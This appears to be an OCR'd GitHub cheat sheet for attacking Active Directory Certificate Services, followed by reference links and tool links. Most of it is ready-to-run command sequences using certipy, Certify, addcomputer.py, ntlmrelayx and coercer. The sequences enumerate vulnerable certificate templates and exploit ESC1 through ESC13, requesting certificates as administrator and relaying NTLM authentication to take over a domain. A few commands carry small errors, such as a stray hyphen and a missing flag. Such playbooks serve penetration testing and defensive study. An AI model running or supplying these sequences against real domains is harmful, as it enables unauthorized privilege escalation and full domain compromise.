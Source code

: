 Enumeration
NetExec
Find PKI Enrollment Services in Active Directory and Certificate Templates Names

#nxc ldap ip -u username -p password -M adcs



# Certipy
Search for vulnerable certificate templates
```
certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
Certify
Search for vulnerable certificate templates

Certify.exe find /vulnerable
Attacks
ESC1
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
Or

certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip
Sometimes if you run certipy and see Minimum RSA Key Length : 4096, you need to provide -key-size 4096 to certipy

certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096
certipy auth -pfx administrator.pfx -domain domain -u username -dc-ip ip
ESC3
certipy req -u username -p password -ca ca -target domain -template template
certipy req username -p password -ca ca -target domain -template User -on-behalf-of 'domain\administrator' -pfx pfx_file
certipy auth -pfx administrator.pfx -dc-ip ip
ESC4
certipy template -u username -p password -template template -save-old -dc-ip ip
certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator
certipy auth -pfx administrator.pfx -domain domain -u administrator -dc-ip ip
ESC6
certipy req -u administrator@domain -p password -ca ca -target domain -template template -upn administrator
ESC7
certipy ca -ca ca -add-officer username -u username@domain -p password -dc-ip ip -dns-tcp -ns ip
certipy ca -ca ca -enable-template SubCA -u username@domain -p password -dc-ip ip -dns-tcp -ns ip
certipy req -u username@domain -p password -ca ca -target ip -template SubCA -upn username@domain
certipy ca -ca ca -issue-request request_ID -u username@domain -p password
certipy req -u username@domain -p password -ca ca -target ip -retrieve request_ID
certipy auth -pfx pfx_file -domain domain -u username -dc-ip ip
ESC8
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
certipy- auth -pfx administrator.pfx
ESC9
certipy shadow auto -u username@domain -hashes :hash -account target_username
certipy account update -u username@domain -hashes :hash -user target_username -upn administrator
certipy req -u target_username@domain -hashes :target_hash -ca ca -template template -target $DC_IP
certipy account update -u username@domain -hashes :hash -user target_username -upn administrator
certipy auth -pfx administrator.pfx -domain domain
ESC13
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip -key-size 4096
python3 gettgtpkinit.py -cert-pfx pfx_file domain/username ccache_file -dc-ip ip -v
```


Resources
https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration
https://vulndev.io/2023/07/01/vl-intercept-walkthrough/
https://www.bulletproof.co.uk/blog/abusing-esc13-from-linux
https://logan-goins.com/2024-05-04-ADCS/
https://www.tarlogic.com/blog/ad-cs-esc7-attack/
https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/
https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-3/
https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-4/
Tools
https://github.com/ly4k/Certipy
https://github.com/GhostPack/Certify

